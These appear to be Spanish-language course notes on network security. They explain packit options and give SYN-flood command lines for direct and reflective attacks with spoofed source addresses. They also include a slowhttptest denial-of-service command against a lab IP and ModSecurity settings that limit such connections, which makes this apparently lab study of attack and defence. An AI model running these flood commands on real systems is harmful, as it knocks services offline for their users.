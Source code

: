 ## Grafana

Dashboard → Importar → ID: 1860 → Y ale, a vivir

# m) TEORÍA

packit –c 0 –b 0 –s –d –F S –S xx –D xx:

- -c: número de paquetes (0=inyectar indefinidamente)
-  -b: cada cuanto tiempo (0=indefinidamente) 
-  -s: ip origen. Usar –sR para utilizar una aleatoria 
-  -d: ip destino. Usar –dR para utilizar una aleatoria 
-  -F: TCP flags (SFAPUR, S=SYN) 
-  -S: puerto origen, por defecto es random 
         21,80,443: el firewall los deja salir, el origen responde (+ mensajes) 
-  -D: puerto destino, por defecto es 0 - 22,80,123,514: lo deja pasar el firewall

**ATAQUE DIRECTO:** 
```
packit –c 0 –b 0 –s R–d –F S –S 80 –D 22 
```
    
**ATAQUE REFLECTIVO:** 
```
packit –c 0 –b 0 –s –d R –F S –S 80 –D 22
```


# n) DOS

**Comando del atacante (slowhttptest)**
```
slowhttptest -c 1000 -g -X -o slow_red_stats -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://10.11.48.197 -p 3
```
> El -p 3 no es necesario → -p: timeout a esperar por la repsuesta HTTP en probe connection, tras el cual se considera el servidor como inaccesible


# o) Modsecurity

- Variable SecRuleEngine On → la cambiamos de DetectionOnly a On, ahora de detectarme va a pasar a defenderse también

- SecConnEngine On -> Configura el motor de conexiones. Esta directiva afecta a las directivas: SecConnReadStateLimit y SecConnWriteStateLimit

- SecConnReadStateLimit 30 -> Establece un límite por dirección IP de cuántas conexiones pueden estar en estado SERVER_BUSY_READ

- SecConnWriteStateLimit 30 -> Establece un límite por dirección IP de cuántas conexiones pueden estar en estado SERVER_BUSY_WRITE

**ENCENDER:**
```
a2enmod security2
```
